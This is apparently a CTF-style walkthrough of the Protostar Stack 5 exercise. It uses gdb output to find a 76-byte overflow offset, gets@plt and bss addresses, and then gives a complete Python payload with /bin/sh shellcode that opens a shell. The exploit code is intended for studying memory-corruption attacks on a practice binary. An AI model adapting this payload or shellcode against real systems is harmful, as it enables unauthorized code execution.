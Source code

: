 # Stack 5
## Overview
    We need to use the ret2libc technique to solve problem Stack5.
    Note: You need to close ASLR.
        $ sudo -s 
        Enter root password.
        # sudo echo 0 > /proc/sys/kernel/randomize_va_space
        # exit
        ---------------------------------------------------------
        Turn on ASLR if you're done.
        $ sudo -s 
        Enter root password.
        # sudo echo 2 > /proc/sys/kernel/randomize_va_space
        # exit
    Please read the "Method" part first before you read the "Process" part.
## Process
    1. Find number of paddings needed.
        (gdb) disas main
            Dump of assembler code for function main:
               0x080483c4 <+0>:     push   %ebp
               0x080483c5 <+1>:     mov    %esp,%ebp
               0x080483c7 <+3>:     and    $0xfffffff0,%esp
               0x080483ca <+6>:     sub    $0x50,%esp
               0x080483cd <+9>:     lea    0x10(%esp),%eax
               0x080483d1 <+13>:    mov    %eax,(%esp)
               0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
               0x080483d9 <+21>:    leave
               0x080483da <+22>:    ret
            End of assembler dump.
        (gdb) b *main+21
            Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
        (gdb) r
            Starting program:/home/mickey/Desktop
                            /protostar_exploit_practice/stack5
            AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
            Breakpoint 1, main (argc=1, argv=0xffffd684) at stack5/stack5.c:11
            11      stack5/stack5.c: No such file or directory.
        (gdb) x/28x $esp
            0xffffd590: 0xffffd5a0  0x0000002f  0xf7e12dc8  0xf7fd5858
            0xffffd5a0: 0x41414141  0x41414141  0x41414141  0x41414141
            0xffffd5b0: 0x41414141  0x41414141  0x41414141  0x41414141
            0xffffd5c0: 0x41414141  0x41414141  0x00414141  0xf7e34c0b
            0xffffd5d0: 0xf7fb83dc  0x080481e4  0x080483fb  0x00000000
            0xffffd5e0: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
            0xffffd5f0: 0x00000001  0xffffd684  0xffffd68c  0x00000000
        (gdb) x/x $ebp+4
            0xffffd5ec: 0xf7e1e637
    
        It is showed that As are stored from the first stack of line 0xffffd5a0
        to the third stack of line 0xffffd5c0.
        In order to reach the return address (last stack at line 0xffffd5e0), 
        we need 76 bytes to overwrite the space from 0xffffd5a0 to 0xffffd5e8.
    
    2. Find where gets function is stored.
        $ gdb -q ./stack5
        (gdb) info func
            All defined functions:
            File stack5/stack5.c:
            int main(int, char **);
            Non-debugging symbols:
            0x08048298  _init
            0x080482d8  __gmon_start__@plt
            0x080482e8  gets@plt
            0x080482f8  __libc_start_main@plt
            0x08048310  _start
            0x08048340  __do_global_dtors_aux
            0x080483a0  frame_dummy
            0x080483e0  __libc_csu_fini
            0x080483f0  __libc_csu_init
            0x0804844a  __i686.get_pc_thunk.bx
            0x08048450  __do_global_ctors_aux
            0x0804847c  _fini
        You can see the gets function is stored at 0x080482e8.
    
    3. Find bss_addr.
        Use IDA pro to find the last line of the binary file stored.
        In this case, the last line is abs:080496DC    end _start,
        so we take 080496DC as bss_addr.
    
    4. Search for usable shellcode from http://shell-storm.org/shellcode/
        shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89
                     \xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

    
    
## Method
    The rough concept is to key in "paddings + gets_addr + bss_addr + bss_addr 
    + '\n' + shellcode + '\n'".
    As problem Stack4, we need to use 76 bytes to overwrite the space of buffer
    (Paddings) and then overwrite the old return address with the one we want
    (gets_addr).
    Since the gets function in stack5.c may take the start of key in string to 
    newline character ("paddings + gets_addr + bss_addr + bss_addr + '\n') 
    as input, these read in data will be stored in stack as shown below.
                        esp-> -------------------
                                    paddings
                        ebp-> -------------------
                              ret addr (gets_addr)
                             -------------------
                                    bss_addr
                              -------------------
                                    bss_addr
                              -------------------
    After executing the gets function (stores the input data into stack), the 
    computer will then go to ebp+4 (ret addr). 
    The return address is set to the the address where gets function is
    stored (gets_addr), so the computer will then think there's another
    gets needs to be executed.
    The computer then takes first bss_addr as its return address, and second
    bss_addr as its parameter (where input data is stored).
    Thus, the remained key in string (shellcode + '\n') is taken as input to 
    this puts function and is stored at bss_addr.
    To be notice, bss_addr needs to be somewhere nothing is stored and has the 
    priviledge of rwx.
    
     
    
## Answer
    
    create stack5.py 
        import struct
        shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89
                    \xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
        payload = ""
        payload += "A"*76  #junk
        payload += struct.pack("<I",0x080482e8)  #plt_gets
        payload += struct.pack("<I",0x080496DC)  #rwx bss
        payload += struct.pack("<I",0x080496DC)  #rwx bss
        payload += "\n"
        payload += shellcode
        payload += "\n"
        print payload


    $ (python /home/mickey/Desktop/protostar/stack5.py ; cat ) | ./stack5
    ls
    ....files listed
